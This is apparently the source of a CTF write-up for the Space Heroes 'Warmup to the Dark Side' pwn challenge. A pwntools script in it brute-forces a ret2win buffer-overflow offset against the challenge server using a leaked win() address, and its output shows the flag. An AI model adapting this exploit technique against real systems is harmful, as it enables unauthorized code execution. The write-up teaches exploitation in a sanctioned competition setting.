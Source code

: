 ```yaml
---
title: "shctf/pwn: Warmup to the Dark Side"
date: 2022-04-05 15:57:40
tags:
- ctf
- shctf
- pwn
description: "Writeup for the Space Heroes CTF pwn challenge \"Warmup to the Dark Side\"."
permalink: ctfs/shctf/pwn/warmup-to-the-dark-side/
thumbnail: https://enscribe.dev/image/banner-ctfs.png
---
```


<style>
    .box {
        border: 1px solid rgba(100, 100, 100, .5);
        padding: 1rem;
        font-size: 90%;
        text-align: center;
    }
    .flex-container {
        display: flex;
        flex-wrap: nowrap;
        justify-content: center;
    }
</style>

<p class="box">Once you start down the dark path, forever will it dominate your destiny.<br>
(And yes, the binary isn't included)<br>
<code>nc 0.cloud.chals.io 30096</code><br>
<b>Author</b>: v10l3nt</p>

Let's run that `netcat` link to see what's going on:

```text
kali@kali:~/shctf/pwn/warmup-to-the-dark-side$ nc 0.cloud.chals.io 30096
The Dark Side Of The Force, Are They. Easily They Flow, Quick To Join You In A Fight. The Dark Side resides at: 0x55a6b42f020c
Jedi Mind tricks dont work on me >>> 
```

We're given an address of the `win()` function... and that's it. If this is a `ret2win` challenge, how are we meant to find the offset of the `$rip` register and overflow it with our code? Of course... we need to brute force it.

In the code snippet below, I got the address provided in the prompt by reading the line and taking its substring (ASLR is enabled, so it's different each time). Then, I slowly increase the buffer of the payload with a loop until I find the right offset of the `$rip`:

```py
from pwn import *
for i in range(0,100):
        p = remote("0.cloud.chals.io", 30096)
        address = p.readlineS()[112:126]
        log.info("Trying offset " + str(i) + " for address " + address)
        p.sendline(b'A'*i + p64(int(address, base=16)))
        output = p.recvallS()
        if "shctf" in output:
                log.success(output)
                break
        p.close()
```

Let's run this script on the server to see if we can get the flag:

```text
...
[*] Trying offset 37 for address 0x55f788f1120c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 38 for address 0x5631d523620c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 39 for address 0x55980d2d520c
[+] Receiving all data: Done (38B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Opening connection to 0.cloud.chals.io on port 30096: Done
[*] Trying offset 40 for address 0x55f0008b520c
[+] Receiving all data: Done (95B)
[*] Closed connection to 0.cloud.chals.io port 30096
[+] Jedi Mind tricks dont work on me >>> 
    shctf{I_will_remov3_th3s3_restraints_and_leave_the_c3ll}
```
